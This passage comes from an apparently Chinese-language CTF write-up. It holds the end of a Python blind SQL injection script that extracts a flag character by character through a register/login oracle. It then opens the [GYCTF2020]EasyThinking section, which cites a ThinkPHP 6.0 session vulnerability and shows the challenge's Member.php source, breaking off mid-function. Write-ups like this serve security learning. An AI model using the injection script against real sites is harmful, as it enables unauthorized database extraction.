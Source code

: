 ```python
    return code


flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.3)
        mid = (min + max) // 2
        print('testing',chr(mid))
        sql = 'ascii(substring((select group_concat(`1`) from (select 1 union select * from flag)x) from {} for 1))>{}'.format(i,mid)
        if login(register(sql)):
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    print(flag)
    i += 1
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211022023426.png)

## [GYCTF2020]EasyThinking

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211022042305.png)

www.zip

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211022042603.png)

thinkphp 6.0 筛子

参考文章 [https://www.anquanke.com/post/id/257485](https://www.anquanke.com/post/id/257485)

利用条件是 session 可控, 恰好 Member.php 中存在相关逻辑

```php
<?php
namespace app\home\controller;

use think\exception\ValidateException;
use think\facade\Db;
use think\facade\View;
use app\common\model\User;
use think\facade\Request;
use app\common\controller\Auth;

class Member extends Base
{

    public function index()
    {
        if (session("?UID"))
        {
            $data = ["uid" => session("UID")];
            $record = session("Record");
            $recordArr = explode(",", $record);
```